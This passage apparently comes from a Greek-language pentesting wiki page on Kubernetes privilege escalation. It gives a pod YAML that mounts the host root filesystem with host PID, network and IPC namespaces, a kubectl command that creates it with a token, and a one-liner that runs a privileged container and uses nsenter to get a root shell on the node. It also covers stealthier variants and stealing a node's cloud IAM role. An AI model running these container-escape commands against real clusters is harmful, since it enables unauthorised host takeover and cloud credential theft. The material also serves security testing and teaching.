 ```yaml:super_privs.yaml
restartPolicy: Never # we want to be intentional about running this pod
hostIPC: true # Use the host's ipc namespace https://www.man7.org/linux/man-pages/man7/ipc_namespaces.7.html
hostNetwork: true # Use the host's network namespace https://www.man7.org/linux/man-pages/man7/network_namespaces.7.html
hostPID: true # Use the host's pid namespace https://man7.org/linux/man-pages/man7/pid_namespaces.7.htmlpe_
volumes:
- name: host-volume
hostPath:
path: /
```
Δημιουργήστε το pod με:
```bash
kubectl --token $token create -f mount_root.yaml
```
Μονογραμμή από [αυτό το tweet](https://twitter.com/mauilion/status/1129468485480751104) και με μερικές προσθήκες:
```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```
#### Stealth

Θα θέλατε πιθανώς να είστε **πιο διακριτικοί**, στις επόμενες σελίδες μπορείτε να δείτε τι θα μπορούσατε να έχετε πρόσβαση αν δημιουργήσετε ένα pod ενεργοποιώντας μόνο ορισμένα από τα αναφερόμενα δικαιώματα στο προηγούμενο πρότυπο:

- **Privileged + hostPID**
- **Privileged μόνο**
- **hostPath**
- **hostPID**
- **hostNetwork**
- **hostIPC**

_Μπορείτε να βρείτε παράδειγμα για το πώς να δημιουργήσετε/καταχραστείτε τις προηγούμενες ρυθμίσεις privileged pods στο_ [_https://github.com/BishopFox/badPods_](https://github.com/BishopFox/badPods)

### Pod Create - Move to cloud

Αν μπορείτε να **δημιουργήσετε** ένα **pod** (και προαιρετικά έναν **λογαριασμό υπηρεσίας**) μπορεί να είστε σε θέση να **αποκτήσετε δικαιώματα σε περιβάλλον cloud** με το **να αναθέσετε ρόλους cloud σε ένα pod ή σε έναν λογαριασμό υπηρεσίας** και στη συνέχεια να έχετε πρόσβαση σε αυτό.\
Επιπλέον, αν μπορείτε να δημιουργήσετε ένα **pod με το namespace δικτύου του host** μπορείτε να **κλέψετε τον ρόλο IAM** της **περίπτωσης** του **node**.

Για περισσότερες πληροφορίες ελέγξτε:

{{#ref}}
pod-escape-privileges.md
{{#endref}}
